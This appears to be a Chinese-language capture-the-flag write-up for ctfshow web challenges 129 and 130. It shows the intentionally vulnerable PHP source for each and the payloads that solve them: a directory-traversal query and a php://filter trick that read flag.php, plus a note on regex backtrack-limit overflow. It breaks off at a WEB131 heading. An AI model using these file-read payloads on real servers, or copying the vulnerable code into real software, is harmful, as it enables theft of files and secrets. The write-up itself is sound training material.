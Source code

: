 ## WEB129

```
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

思路：第二个判断中f要包含ctfshow

通过目录穿越

payload：?f=/ctfshow/../../../var/www/html/flag.php

非预期：

?f=php://filter/ctfshow/resource=flag.php

## WEB130

```
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];
    if(preg_match('/.+?ctfshow/is', $f)){  
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }
    echo $flag;
} 
```

第一个正则中表示ctfshow前面不能有东西

第二个if判断ctfshow的位置不能为flase（可能想不让ctfshow在第0位可是===会判断类型使用0===flast为0）

```payload
payload：POST:f=ctfshow
```

实际考点：

PHP 为了防止正则表达式的拒绝服务攻击（reDOS），给 pcre 设定了一个回溯次数上限 pcre.backtrack_limit
 回溯次数上限默认是 100 万。如果回溯次数超过了 100 万，preg_match 将不再返回非 1 和 0，而是 false

## WEB131  正则表达式溢出
